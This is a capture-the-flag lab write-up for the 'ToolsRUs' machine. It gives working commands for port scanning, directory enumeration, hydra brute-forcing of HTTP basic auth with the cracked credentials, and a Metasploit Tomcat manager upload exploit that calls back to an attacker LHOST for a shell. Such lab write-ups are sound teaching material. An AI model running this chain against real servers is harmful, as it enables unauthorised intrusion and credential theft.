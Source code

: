 # ToolsRUs
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.98.251

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sV -p- -oN nmap.txt 10.10.98.251
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18),<br>
    1234 (http Apache Tomcat/Coyote JSP engine 1.1), <br>
    8009 (ajp13 Apache Jserve Protocol v1.3)

Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.98.251 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![1.2](./imgs/1.2.png)

Directories of Interest: /guidelines, /protected

Potential username bob from /guidelines and looks like tomcat server might be outdated

![1.3](./imgs/1.3.png)

/protected has basic auth

Enumerate hidden directories on website on port 1234
```
gobuster dir -u http://10.10.98.251:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Apache Tomcat/7.0.88 servern

Directories of Interest: /manager

### 2. BRUTE FORCE BASIC AUTH

use Burp Suite to see reqeust

![2.1](./imgs/2.1.png)

Login request sent as encoded string<br>
Ym9iOnRlc3Q= = bob:test

We can use hydra to crack this basic auth
-f: IP address
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt.gz -f 10.10.98.251 http-get /protected
```

![2.2](./imgs/2.2.png)

**PASSWORD**: bubbles

![2.3](./imgs/2.3.png)

### 3. SCAN TOMCAT SERVER

Use nikto to do a web vulnerability scan
-id CREDENTIALS (username:password)
```
nikto -host http://10.10.98.251:1234/manager -id "bob:bubbles"
```

![3.1](./imgs/3.1.png)

### 4. EXPLOIT

Use metasploit to exploit server
```
msfconsole
search tomcat
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.98.251
set RPORT 1234
set HttpPassword bubbles
set HttpUsername bob
set LHOST 10.6.1.136
exploit
```

![4.1](./imgs/4.1.png)

**ROOT FLAG**: ff1fc4a81affcc7688cf89ae7dc6e0e1